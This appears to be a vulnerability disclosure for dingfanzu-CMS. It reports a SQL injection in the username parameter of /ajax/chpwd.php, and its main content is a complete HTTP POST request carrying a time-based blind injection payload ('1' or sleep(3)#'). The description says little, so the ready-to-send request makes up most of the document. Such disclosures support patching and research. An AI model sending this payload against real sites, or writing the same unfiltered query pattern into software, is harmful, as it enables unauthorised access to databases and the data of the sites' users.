 # dingfanzu-CMS chpwd.php username SQL-inject

**Exploit Title: dingfanzu-CMS chpwd.php username SQL inject**

**Exploit Author: webraybtl@webray.com.cn inc**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "chpwd.php" username module, resulting in the generation of SQL injection.

    Payload used:

```
POST /ajax/chpwd.php HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1724296185; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1724296185; HMACCOUNT=972263C9F6177EA8; PHPSESSID=6tpdrcitemfg08ghc7vtcjvuo7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=1' or sleep(3)#&password=
```

## Proof of Concept

![](D:\software_data\markdown_image\2024-08-22-14-07-33-image.png)

![](D:\software_data\markdown_image\2024-08-22-14-08-54-image.png)
